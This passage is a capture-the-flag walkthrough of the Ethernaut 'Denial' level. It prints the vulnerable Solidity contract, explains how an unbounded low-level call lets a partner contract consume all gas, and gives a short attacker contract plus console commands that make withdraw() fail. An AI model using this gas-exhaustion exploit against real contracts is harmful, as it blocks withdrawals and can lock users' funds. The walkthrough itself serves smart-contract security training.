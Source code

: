 import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
Level author:
Adrian Manning
age@agemanning.com

The goal is to make the withdraw call fail. We control the partner contract. The contract writer’s idea was that even if we revert in our contract using revert / require only our function call would fail but the withdrawal to the original owner would still continue. While this is true, notice that our function is being called using .call without specifying an explicit gas limit. We can just consume all available gas in the transaction resulting in the caller function to be out of gas and fail. Contrary to revert and require, the assert instruction consumes all gas.

1 Deploy
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract DenialAttacker {
    fallback() external payable {
      // assert consumes all (!) gas
      assert(false);
    }
}
```

2. Take note of contract address
3. ```await contract.setWithdrawPartner("YOUR CONTRACT ADDRESS")```
4. ```await contract.withdraw()``` will fail out of gas



## Shop
Difficulty 4/10
```
